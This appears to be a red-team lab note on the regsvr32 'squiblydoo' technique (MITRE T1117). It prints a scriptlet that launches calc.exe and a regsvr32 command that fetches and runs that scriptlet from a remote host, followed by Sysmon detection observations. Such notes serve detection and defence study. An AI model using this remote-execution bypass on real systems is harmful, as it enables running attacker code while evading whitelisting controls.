

# T1117: regsvr32 aka squiblydoo

[https://attack.mitre.org/wiki/Technique/T1117](https://attack.mitre.org/wiki/Technique/T1117)

## Code



```markup
<?XML version="1.0"?>
<scriptlet>
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="JScript">
    <![CDATA[
      var foo = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
    ]]>
</script>
</registration>
</scriptlet>
```



## Execution

We can then execute the code from the command prompt:

```bash
regsvr32.exe /s /i:http://10.0.0.5/back.sct scrobj.dll
```

## Observations


Note how regsvr32 process exits almost immediately. This means just by looking at the process list you may not suspect a process until you realise how it was invoked. Sysmon commandline parameters logging capability though will show what you need to see:


Additionally, sysmon will show regsvr32 establishing a network connection:



